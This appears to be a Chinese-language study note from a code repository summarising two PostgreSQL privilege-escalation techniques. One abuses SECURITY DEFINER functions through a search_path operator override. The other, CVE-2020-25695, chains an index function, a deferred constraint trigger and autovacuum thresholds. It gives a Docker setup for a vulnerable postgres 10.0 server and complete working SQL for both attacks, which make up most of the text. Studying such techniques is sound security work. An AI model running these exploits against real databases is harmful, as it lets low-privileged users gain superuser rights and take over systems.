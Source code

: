 # postgresql权限提升总结

## 参考文章：

https://www.cybertec-postgresql.com/en/abusing-security-definer-functions/

https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/

## docker创建环境

```
docker pull postgres:10.0

docker run --name my_postgres -e POSTGRES_PASSWORD=123456 -d -p 5432:5432 postgres:10.0
```

## 第一篇文章总结

### 创建危险函数

高权限用户运行

```
CREATE FUNCTION public.harmless(integer) RETURNS integer
   LANGUAGE sql SECURITY DEFINER AS
'SELECT $1 + 1';
```

SECURITY DEFINER代表运行函数时会使用创建函数的用户的权限


低权限运行

```
CREATE FUNCTION public.sum(integer, integer) RETURNS integer
   LANGUAGE sql AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1 OPERATOR(pg_catalog.+) $2';

CREATE OPERATOR public.+ (
   PROCEDURE = public.sum,
   LEFTARG = integer,
   RIGHTARG = integer
);

SET search_path = public,pg_catalog;

SELECT public.harmless(41);
```

search_path的意思是 先去public寻找函数harmless函数

运行harmless时是高权限账号 导致INSERT INTO public.t1 VALUES (current_user);插入的是高权限账号

## 第二篇文章总结

整体流程

高权限运行索引-调用sfunc（低权限）-插入t0（低权限）-调用触发器-调用strig-调用snfunc（高权限）

使用

autovacuum_vacuum_threshold、autovacuum_analyze_threshold完成自动化

```
CREATE TABLE t0 (s varchar);

CREATE TABLE blah (a int, b int);
INSERT INTO blah VALUES (1,1); -- 必须要插入数据


CREATE FUNCTION sfunc(integer) 
  RETURNS integer
  LANGUAGE sql IMMUTABLE AS
  'SELECT $1';

CREATE INDEX indy ON blah (sfunc(a));

/*
使用替换的函数绕过IMMUTABLE，IMMUTABLE的意思是同样的参数只运行一次 后面传入参数一样的情况下都不再运行
*/

CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t0 VALUES (current_user); SELECT $1';


CREATE TABLE t1 (s varchar);

-- create a function for inserting current user into another table

CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1';

-- create a trigger function which will call the second function for inserting current user into table t1
CREATE OR REPLACE FUNCTION strig() RETURNS trigger 
  AS $e$ BEGIN 
    PERFORM snfunc(1000); RETURN NEW; 
  END $e$ 
LANGUAGE plpgsql;

/* create a CONSTRAINT TRIGGER, which is deferred
 deferred causes it to trigger on commit, by which time the user has been switched back to the
 invoking user, rather than the owner
*/
CREATE CONSTRAINT TRIGGER def
    AFTER INSERT ON t0
    INITIALLY DEFERRED 
    FOR EACH ROW
  EXECUTE PROCEDURE strig();

ALTER TABLE blah SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE blah SET (autovacuum_analyze_threshold = 1);
```
